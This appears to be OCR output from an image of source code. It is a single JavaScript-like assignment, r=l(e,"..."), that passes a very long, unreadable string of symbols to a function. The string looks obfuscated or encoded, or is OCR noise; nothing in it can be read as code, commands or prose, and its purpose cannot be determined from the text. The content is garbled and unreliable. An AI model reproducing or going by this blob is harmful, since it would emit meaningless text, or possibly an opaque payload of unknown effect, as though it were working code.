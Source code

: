 r=l(e,"{a)(Ox:t8KC#SG4<KxG8OO#Pa<K(<O:zSS(:x#SC)8Kta)t<4KOS#G))G<x(#O)D8S<:akt<4#O:SO)4C#%St44KKS+8tO4uOS#8?O<<(S:#)aO_CSa88)C(a#8t4<x4Ka<)x41G:84CFG#))XKt<tt-SKO8#)a*8K4:x4SK(#K8 Gt<CxO:#4)8x:GCtaGX(S#a<(8f<x:)84)aKSaa88<(aOC8+8x84(:SGaOGC8)xK8#C:OSO(8CKG:8:44:RSK):KOSKt(48OWv(tOG8OO#raC(OC( <:t4Ox:S t<<)xOS2)SK:KD(RK#6)a<G4(SC<a#G((<C8aO8R4C5)x:((C)&8tO4kOCt(4aOO#x)tGtO#CSa88O444888<(xCtt)KCaaot=4tKtB8:SG8OOC4C<Ot#(a#x448:(a(8x48xOSe)C)OSO)<K:D::OGtO(<#KSGR(SC8a)a<K<qS8)K#OG#S)#K}#ttCGRO4:t)(Ka<C:#S8()C<mSttK<:)S+(tKt##xO4)O4#KiC88<)a##GZ:x<fGKgC((xSE)#K8aa:S4(X:88<O:ySS#t)x8S<8:OOOKGYC8_4x4<x4SO(fKS/:()K#<8tCGGK(yv:8GOOzA4Ka<8xxxSS8(OGpaxGSxSx:<4)#K4yg:SG8O)xSS#(tK(aCt44Cx#S9t<k)xOS+)SK:KS)CK:uax)Gz(CC)Q)8<<KxSSG()CC4#t8G<O##8)G:S1#tt4aK(i&:8GOO2%<8X4x:)x<SG(OCP,St:K:<StOG8KO.s:Sa8<88<S8tC(x:(Ga(8COa^tCC:fOtt4(K#N#tdGSO8aC8<<4xGSx((COC#a8814Sx8(8CKbS:Gtt4KOS#8)O84##))K)<<:KSS(GC)x<G((OCfUSt:t7a>t#4)<<C4)(8S<)::aS88<O:cSS(8COaX#S48xOSg)SK8^Ot;GSO8#t(k8S<8:OS4G<x8Ct(t#><t:aG)((SC):K<HOttG4K(vS:8GOOyCC#(OaCC048x41x8S#)8C)g<)t##(O8G:<4tOO#=aS<t:8SGOjK<a#xSG((CC8(KK84j:KS8G<O<#O)&8S<:)t8e<xxKSO(G4<x#SO(VKSt#4KO)O<S))OK5<S:::?_p:#G)(xCGaStS<(C2LSt8aS8S)fCYKCO):<G4OO#/aS<#:8G)(xC:h#a(8a48xOSB)C)OSO)<K:O##4).8S<8:)xS<S:tS4)4C(kSt)4:KS98tO4mOS#8)O86(#:#4)OdCSa88)KC4Kt4S)xGSO-4Kt3St:G:x3K(:<GSOO#PaS8:CGaM84OaCOa.tS)txOSL)SKK!xt(4(O8#O)s8C8:<x8G48:!SO81x)#4)CK:=):4xCa<OS#8)OK3<S:8aOG<4Sa#8C<MxSS8())4S(()KGPy#S)8KO&1:SG88O)<GS8#rR:QSS(8C)Ct(:K:jittStO<#Z(O8S_x#t)K8S<8:OS4G7:aG)(<K8aat)4gK<aatO4XOS#:#a(S#Ca8:<4S:KGt8t<CxSS8(OK4S4()Cap:tC4(OMC4aSG#O##}aS88<)<#t8<xxOSK(#4#xGS=)SK8!)<SKx<::tGCOKC8a(G(OGC8aO8>4C<:tO4KO#Ca)4K<c^:KG8(4C8)t88<C:xa#8<<7xSS8()(OSx((COw<OKG8O:CS)xG#xa#faS88<)<<8K4OxGS4(tKOaat+4xO:S8t(4tO8#O)h8CKx)O8KGCx8GaOaCWX:tO((#(+8tO4hOCtxGax(C8):K)<A:#SS((txG:O)#aa48K<O:aG)(GC(a(^(tOG8OO#PaC):C4)w8x4t(8#<t<4GxOS!)SK:K()O8S<t#t)<8S<8:OS4S4x8G(m<KSa:t)46xx#t)kKKJ#t:)OK_<S:8GOOFCSa88O<(:GS8(OC&vC%#COA8:84aO4#Oa#tx<4:CG#)(CAaG8#(##(a-tS48x)O4G<OOSaaS8CUt:OGGa8Cta(8H4#C8aO8/4Sx8SO(r7xO8tt4#OS#8)O8488)x8)<(:9GK(sKGa(t8(tC:!St84OO4xC4)xO#Ka#G#OC#6aS88<)a#t84S:aS4t<<BxOSB)SK:Ka(zK#ut:4GK 8<#:<GJ(SC8a)a4C#bO8a4<OSSxz:C7h_##)<KI<S:8G)G)xSGt))CWaK8K48O4#St#<)xg#S)8K)KGaSKa<(:&GK):#(aH8t<(xO#<t<<axOSy)SK:K()OKC<O:aGt(SCt:tG8(SC8aOt48t3<t?<OOSSx()4(xa#8)OK.<CV:88fxxSa88O<ZxSS8(OCrOb#84txt#S)8KO<4}tKx<O:4GC<(<t:xSS(8CO64atK<.w8O)<KGPOtXGSO:x(GiO<#t:tGK(SC8aOt4t<a8tSGSxxS))88<O<#S)OKz<S::8G<V:4a#KS<NxSS8()(OSx(KK8c4t-GxO##vGttt<4:)S4(<COS#:(<)x-#<)SKtxtS8)SK81O:4tG<8:)G<O:#x4)G(O8C8aO8m4C4<t4G4O8#<a)841K:SG<O<<<:4GOONCSa:)(COa#t<4OC(a8t84Oxz#C#COO#<<C8#<8:tS#OxCOaKS<OKCOa-tS4:<Ot4GSxxK8)KKts8t(#4(S#x)x8O4Cx8aO864Sx8SO(gKS<8#(4(x)#8)OK1<CI)8C4St*Ka8t<KxSS8(OK4K#(8Ca<St#GSO4#K:SG8OO#5aS88<OtOLS(##aa&tS48x)x44:x8#Ga<tC<8ta4aOvC:aOG(OtC8aO8v4C4:t24K)CS))#Kti^:tGOK(54:8GOOYCC#x(OKSa(x:4tOSSK)OK)W<:S4x)(#OaS8tOt#CaS88<Ox4xC4#xoSG)8K:a(tY4KK#))tHGSO8#)8#O##)S<tG4Sx:S4(8KSS(t)4(O8Sa):KU#ttKG8O4#yax88<t:!GtO8:Kx<SC(OCLWSt:8Bx(G:)8KO^r:C::<txSGK(OC)a<tS<x(MS#(tK8YZtGG8xa#))Jt(g):kS<(SCt:tGx(SC8aOt4843Ot84<K</StO4?OS#:#8O488:#GKO}CSa88)C)J88Z4OC(aat84OxF#CS(OF#G)#G#OS#UaS88<)448:<axGSh)CCtxtS8)SK8dO:4tC<8t(C4O:#xaOGx(SC8aO8x4Sx8SO((C#s8tO4VOCOKG8OKC#<K88<G:CGta)C(aJt<4(C(aOt84Ox%#C#4OOSO<CK)<(:Ta<KK<O:;SS(:(tG+(OKOiGtC4_OtCa)CK:stO<SSOK#t:tG:(SC8aOt4C(a)8:4rxKg#tK4NOS#8)))KC8)P8OO/CSa88O<)8aS8(OC9a)OC4Oxa#S)#KO-a:SG8OO#O:G88<O:&S<(8CxagtSGKxOSN)SKK+OtNGS:884).84<8:OGM(4C8(Ox:4SxCSO()KSoGtO_Ux:#8):KD<4:8G8O=CS)G8O<)xSSC(OC);St84Cx}#<)8KOAE:SG8:O#OaS8#<O:(SS(SCOal8G48xtS9)4K81:tu4)xa#O))8SaS:OGa(SC#aO8O(Gx8SO(sSpI8tx4=OSSC)OK)<S:KGOOvCSa4x:<Ix4S8x8C*-Gt84OxIS3tKKOzM:S<SOO#aaS88I::MS4(8C:a!tS48xCS()SKCoO8(GSOK#O)a8S<S#xGL(SC8)t8U4Gx8S88aKSD8tO_OOS#K)OK=H4:8G:O_C<a88O<Q:)KC(OC)rSKS4Oxa#S)8KOdO#GG8OO#!Om88<x:TSSOCCOa)tS4CxOS%)S#88:tWG4O8#:)Q8G<8t:S:(SCSaO8(4Sx8SO(&t}I8t:4Hx?#8):K=b)(CGOO)CS(S8O<axSS8(OCOxGt84Oxr42)8Kx/X:S4COO#)aS8#<O:BSSx8):art448x:S-)GK8a:::GSOS#O)(8S<8:OGgalC8a:8w<mx8S:(*C)GCtO4)OSGS)OKa<S:8GOOO<Ga88O<N8ES8(xCjdS8C4Ox)#S)SKOME:SG8t4#9a488<x:VSG(8CO3atS48xOSa)SK8!OtaGSO8#O)(KO<8:OGE(C(tSO(4C#axt4<OKSc8tO4NOS#<)OKL<S:8)aO*CSa88O<*xSS8xO#KDSt84Oxy#S)KKOyQ8xG8OO#Ba488<x:qSSOWCOaBtS4KxOS0)S#8>8t3GSO8#O)j8G<8:OGG(SC8aO8)4SxKSO(kK<28tO4UOG#8)OKh6O:8GOO}CSa88O<_xSS8(OC;PSt#<Lx+#S)8K)84a<8O<G:)SS):#(wS8#48CtattS48xO#4#C)KSaaSKO<8#t)K8S<8:OS4S<:8SS)SCxa)t8G<K<ZStO4rOS#:GGOz#4:8GOOvCSa88O<PtE.8(:CqkSt84Ox #S)8#COZ:SG8OO#5aSC,<O:;SS(8#:autS48xOSH)SK8)CtKGSO8#O)48S<K:OGt(SCS:x814Sx8G)(PKGd8tO<)OS#8)OK+<S:8GOOna#a88x<%xGS8(OCm)St#4Oxa#S)KKO0(:S4CxS#pa488<t:ySS(8SOaOtS4CxOS))SKGhO8)<xO8#t)+8G<8:OG&O4#:aO8O4Sx4SO(>KSaC8#4sxa#8)xK3<S:8GOO8CSaC8O<xxSSC(OCc)(t84xx3#G)8K:^UtS4KOO#_aS8#<O:aSS(8#:a6tS48x:Se)SK8YCt(GSO8#O()8S<K:OGa(SCS:x8;4Sx8G:(>KG18t8(aOS#8)OCt<S:KGOOj#4a88O<cx<S8(OCE)Sx)4Oxd#S)8KO7O:S<8S:#NaS88<O:wS4(8#:,:tS4CxOS8)SK8 OtltxO8#O) 84<8:xGB(SKKaO8&4SxKSO(MKS)4tO4sOS##)GKe<S:8G)GO:xG:O(KSaxt:4OC(aOt84Oxc#CSKOOC4)#K)ya)4a<K(<O:eSS(:()#S(xt:j4tt4(OS#()dG<OG#O)D8S<:<(8O4SxtatKC4Sx8SO)4)C##)HKG<8::4(OX#K<O8<<#xSSOOaKSaxt:4O(tS:)OK(*u:#)#CxZ/:SG8O)O(GSO.CbaK8:4Sx(CG(:C)a(x#G8xxS(t+GSO8#O)&8S<8SGaR(<#OaO8+4Sx:x:4ex#K:)tKOD(:t4aO?#x:#G#O&CSa88)8#i88x4OxKS#t#4Kx6#S)8K)K4)VKG<O#())88<O:,SC<(xsSO(KC:xtSC)SK8+O:4K4c)taG:OC#(ast44SC8aO8.4Sx8SO(+#vO8tt44OS#8)O848C)8Ka<GxSGaO(t4}88!4OxG#8t#4Gxd#S)8K)8Ga8K:<OO#S8Ox#(:&SS(8COaAtS48xOSV)<COAOt?GSO::8G4O^#a)x8O<CxSSa(tKSx#S8(nKS-8t)KK<StC)tKK<S:8GO(4(#SSO)KS5Kt<4OO<h<8t4Ox1#S):):#J)#:t<O:4SC(8CGm<t8<a:(S4t<4<xOSr)SK:K)iaKK<O:SG28<Jx:OGN(SC:#((GK8aa8)4#O8Sx)OKK<CtS)tKx<S:8GO(4OtSOOaC<x<G)(OCcUSt:t);(:84xO5C4)#88La#()488<O:zSCGxxO#S((t:jt:S4KOO#))<8S+xO(GO(SCt:tG8(SC8aOt4tCa)tG4KOS#:((4gOS#8)OKPtS4<Kt8lC<)(8O</xSS:SQxG#C)#K8aa:8GxO##1:<GSOO#DaS8:88a4x8(##Wa tS48x)xt4:O:#/)ttC<:taGOOt#t:xGa(Sq4tC4:x)#4)Ca:G#T#tG4=OS#8))aS#xa:8t<C:KS8((<(:OS8(OC;bCgtKO14t#4xO4SO:<G4OO#baS8:8)at8:<axOa(8C48xOS.)C):#?)88Szx:o#4OSCxaK8w4C:tat8K4Sx8SO)4)<S8)S8S*xt)G8(<<S:8GOOiCSa88O4XK#SK(OCUpStK4Oxz#S)#KS!5:SG8O)(<SSO:#(aG8: